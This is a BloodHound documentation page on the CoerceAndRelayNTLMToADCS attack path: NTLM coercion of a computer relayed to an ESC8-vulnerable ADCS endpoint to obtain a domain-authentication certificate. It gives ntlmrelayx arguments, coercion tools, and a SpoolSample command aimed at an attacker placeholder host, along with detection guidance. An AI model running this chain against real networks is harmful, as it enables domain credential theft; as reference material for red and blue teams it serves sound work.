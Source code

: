 ```yaml
---
title: CoerceAndRelayNTLMToADCS
description: The target computer can be coerced to authenticate via NTLM to an ADCS server, allowing an attacker to obtain a certificate for domain authentication.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that an attacker with "Authenticated Users" access can trigger SMB-based coercion from the target computer to their attacker-controlled host via NTLM. The authentication attempt from the target computer can then be relayed to an ESC8-vulnerable web enrollment endpoint of an Active Directory Certificate Services (ADCS) enterprise CA server. This allows the attacker to obtain a certificate enabling domain authentication as the target computer.

## Abuse Info

This section provides general guidance about abusing this edge. For detailed instructions, see [references](#references) at the end of this article.

### Linux

1. **Start the Relay Server**

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to the enterprise CA and enroll a certificate, specify the HTTP(S) endpoint as the target and use the following arguments:
   
   ```bash
   --adcs --template <TEMPLATE_NAME>
   ```

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/p0dalirius/windows-coerced-authentication-methods)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

### Windows

1. **Start the Relay Server**

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

### Detection of NTLM Relay

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9) blog post.

### Detection of Certificate Usage

Authentication using the obtained certificate is another detection opportunity. If Kerberos authentication is used, a domain controller will generate Windows Event ID 4768 ("A Kerberos authentication ticket (TGT) was requested"). This event will include the attacker's IP address rather than the target computer's IP address. Similarly, for Schannel authentication, Event ID 4624 will reveal the incorrect IP address. These detection techniques are described in detail under DETECT2 in the [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) whitepaper.

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)
